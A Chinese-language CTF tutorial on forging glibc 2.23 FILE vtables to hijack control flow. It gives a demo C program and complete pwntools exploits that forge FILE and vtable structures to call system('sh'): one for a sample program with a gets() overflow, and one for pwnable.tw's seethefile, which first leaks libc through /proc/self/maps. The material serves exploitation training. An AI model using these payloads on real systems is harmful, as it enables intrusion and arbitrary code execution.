



vtable伪造
libc2.23 版本下，位于 libc 数据段的 vtable 是不可以进行写入的，在之前的版本的利用就不叙述了。虽然libc 数据段的 vtable不可以写入，但是可以通过伪造vtable并且修改_IO_FILE_plus->vtable这个指针来实现劫持程序流程。
直接用wiki上的例子
#define system_ptr 0x7ffff7a523a0;
#include<stdio.h>
#include<stdlib.h>
#include<string.h>
int main(void)
{
FILE *fp;
long long *vtable_addr,*fake_vtable;
fp=fopen("123.txt","rw");
fake_vtable=malloc(0x40);
vtable_addr=(long long *)((long long)fp+0xd8); //vtable offset
vtable_addr[0]=(long long)fake_vtable;
memcpy(fp,"sh",3);
fake_vtable[7]=system_ptr; //xsputn
fwrite("hi",2,1,fp);
}
vtable 中的函数调用时会把对应的_IO_FILE_plus 指针作为第一个参数传递，也就是_flags成员变量。
这里伪造fp的vtable指针，使其指向我们伪造好的区域，fwrite会调用_IO_jump_t中偏移为0x38的指针（__xsputn），让它指向system函数，而fp->_flags上直接放“sh”字符串。运行fwrite时实际上去执行system("sh")。（gdb调试运行，不可直接运行，要不然system的地址不正确）

注：stdin\stdout\stderr这些_IO_FILE_plus结构体变量也是可以被修改的，这些流在 printf\scanf 等函数中就会被使用到。在 libc2.23 之前，这些 vtable 是可以写入并且不存在其他检测的。
例1
源码如下example.c
#include<stdio.h>
#include<stdlib.h>
char buf1[0x20]={0}; //0x601080
FILE *fp=NULL; //0x6010a0
char buf2[0x400]={0}; //0x6010c0
void backdoor(){
system("no sh");
}
int main(){
fp = fopen("key.txt","rw");
gets(buf1);
fclose(fp);
}
编译命令
$ gcc -g example.c -o example -no-pie
明显的溢出，不过是在bss段，可以覆盖fp指针和buf2，此处把伪造的file结构体和vtable结构体分别放在buf2上和buf2+0x200上。
file结构体需要伪造的地方
1，_flags 修改为"/bin/sh" 作为vtable调用时的第一个参数
2，_lock
_IO_acquire_lock，此处存在一个对_lock的调用，而_lock是一个指针，指向一个结构体_IO_lock_t，这里只需要让这个指针指向一个合法的地址，并且0x18个字节内的值全是‘\x00’即可。
typedef struct { int lock; int cnt; void *owner; } _IO_lock_t;

3，vtable指向我们伪造的vtable结构
vtable中需要构造的地方
1，__close
这里改成我们需要执行的地方(system_plt)
寻找方法：可以用peda的pattern create 寻找

漏洞触发方式：执行fclose时，调用了vtable上的__close（被伪造位system_plt的地址）
最终exp
from pwn import*
context.log_level = 'debug'
p = process('./example')
elf = ELF('./example')
system = elf.plt['system']
buf2 = 0x6010c0
fake_vtable_ptr = buf2+0x200
fake_file = '/bin/sh\x00'.ljust(0x88,'\x00')+p64(buf2+0x400)
fake_file = fake_file.ljust(0xd8,'\x00')+p64(fake_vtable_ptr)
fake_vtable = '\x00'*0x88+p64(system)
payload = 'a'*0x20+p64(buf2)+p64(0)*3
payload += fake_file.ljust(0x200,'\x00')
payload += fake_vtable
#gdb.attach(p,'b *0x40063a')
p.sendline(payload)
p.interactive()
例2
pwnable.tw上的seethefile
附件下载（可能被墙）：https://pwnable.tw/static/chall/seethefile
32位程序，攻击方法和例1一样，只是各个结构体成员的偏移量不一样而已。
main函数伪代码
int __cdecl main(int argc, const char **argv, const char **envp)
{
char nptr; // [esp+Ch] [ebp-2Ch]
unsigned int v4; // [esp+2Ch] [ebp-Ch]
v4 = __readgsdword(0x14u);
init();
welcome();
while ( 1 )
{
menu();
__isoc99_scanf("%s", &nptr);
switch ( atoi(&nptr) )
{
case 1:
openfile();
break;
case 2:
readfile();
break;
case 3:
writefile();
break;
case 4:
closefile();
break;
case 5:
printf("Leave your name :");
__isoc99_scanf("%s", &name);
printf("Thank you %s ,see you next time\n", &name);
if ( fp )
fclose(fp);
exit(0);
return;
default:
puts("Invaild choice");
exit(0);
return;
}
}
}
主要功能：
1）openfile：打开文件，文件指针就是fp，不能打开文件名为flag的文件
2）readfile：从fp读取0x18F个字节到magicbuf上
3）closefile：关闭文件，指针fp赋0
4）writefile：只是一个打印函数，而不能写入，不能打印flag,FLAG,}名的文件
case 5处有明显的溢出，可以覆盖fp指针。
相对来说比较新颖的是，这里libc的获取
由于linux独特的文件形式存储，文件的内存信息存储与/proc/pid/maps中，这里pid使用self来代替。
参考文章 http://p4nda.top/2017/09/20/pwnable-tw-seethefile/

利用这里利用方法和例1一致就不再赘述，直接上exp
from pwn import*
context.log_level = 'debug'
context.update(arch='amd64',os='linux',timeout=1)
p = process('./seethefile')
#p = remote('',)
libc = ELF('/lib/i386-linux-gnu/libc.so.6')
def pr(a,addr):
log.success(a+'===>'+hex(addr))
def openfile(name):
p.recvuntil('Your choice :')
p.sendline('1')
p.recvuntil('to see :')
p.sendline(name)
def readfile():
p.recvuntil('Your choice :')
p.sendline('2')
def writefile():
p.recvuntil('Your choice :')
p.sendline('3')
def closefile():
p.recvuntil('Your choice :')
p.sendline('4')
def exit(name):
p.recvuntil('Your choice :')
p.sendline('5')
p.recvuntil('your name :')
p.sendline(name)
name_addr = 0x804b260
openfile('/proc/self/maps')
readfile()
writefile()
readfile()
writefile()
p.recvuntil('f7')
libcbase = int('0xf7'+p.recv(6),16)+0x1000
system = libcbase + libc.sym['system']
pr('libcbase',libcbase)
pr('system',system)
#gdb.attach(p,'b *0x8048B0F')
fake_file = ('sh'+'\x00'*2).ljust(0x48,'\x00')+p32(0x804b500)
fake_file = fake_file.ljust(0x94,'\x00')+p32(name_addr+0x20+0x94+4)
fake_vtable = '\x00'*64 + p32(system)
payload = 'a'*0x20 + p32(0x0804B284) + fake_file + fake_vtable
exit(payload)
p.interactive()